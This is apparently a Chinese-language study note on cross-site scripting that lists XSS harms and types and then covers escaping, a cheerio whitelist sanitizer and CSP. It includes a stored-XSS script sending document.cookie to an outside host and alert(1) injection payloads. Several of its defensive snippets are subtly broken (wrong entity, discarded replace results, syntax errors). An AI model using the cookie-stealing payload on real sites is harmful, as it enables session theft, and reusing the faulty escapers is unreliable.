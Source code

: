 ```yaml
---
title: web安全之XSS
type: "categories"
categories: 其他
---
```


# xss (cross site script)
跨站脚本攻击，比如：
造成的危害：
	获取页面数据
	获取cookies
	获取用户密码
	劫持前端逻辑
	发送请求
	欺骗用户
	......

类型： 
	url  反射型攻击
	存储型 存储到DB后再读出（表单存储)
	比如：嵌入表单
```
<script type="text/javascript">
	let img = document.create('img')
	img.width  = 0
	img.height = 0
	img.src = "https://www.yyy.com/joke/jp.php?joke=' + encodeURIcomponent(document.cookie)'"
</script>
```

把这些存入数据库，用户再次访问的时候会读取这个脚本
1. HTML内容
http://localhost:8000/?from=<script>alert(1)</script>
escapeHTML() {
	str.replace(/</, '&lt')
	str.replace(/>/, '&rt')
}

2. HTML属性注入
逃出html属性的控制
localhost:8000?avatarId=1.png" onerror ="alert(1)

解决方案：
```
escapeHTMLAttribute() {
	str.replace(/"/g, '&quot')
	str.replace(/'/g, '&#39')
	str.replace(/' '/g, '&#32')
}
```
把前两者合并成一个
```
escapeHTML(str) {
	//这个要注意html解析的时候，多个空格会解析成一个空格，所以这里不予转义，主要不要html属性加上引号就可以了
	str.replace(/</g, '&lt')
	str.replace(/>/g, '&rt')
	str.replace(/"/g, '&quot')
	str.replace(/'/g, '&#39')
}
```
其实浏览器已经帮我们阻止掉了前面两种攻击

2. js注入
http://localhost:8000/?from=google";alert(1);" 一定要关闭分号;
```
<script>
	let data = "#{data}"
	let data = "hello;";alert(1)""
</script>
解决办法：
JSON.stringify(str)
```
3. 富文本
按照白名单保留标签和属性，引用一个cheerio
```
var cheerio = require('cheerio')
var $ = cheerio.load(html)
//白名单
var whiteList = {
	'img': ['src'],
	'font': ['color', 'size']
}
$('*').each((index, ele) => {
	if(!(whiteList[ele.name]) {
		$(ele).remove()
		return
	})
})
for(var attr in elem.attribute) {
	if(whiteList[ele.name].indexOf(attr) === -1) {
		$(ele).attr(attr, null)
	}
}
return $.html()

可以使用第三方库 js-xss
``

浏览器标准做了些什么CSP（内容安全策略）
指定哪些内容可以执行
首部字段设置：Content-Security-Policy default-src  self


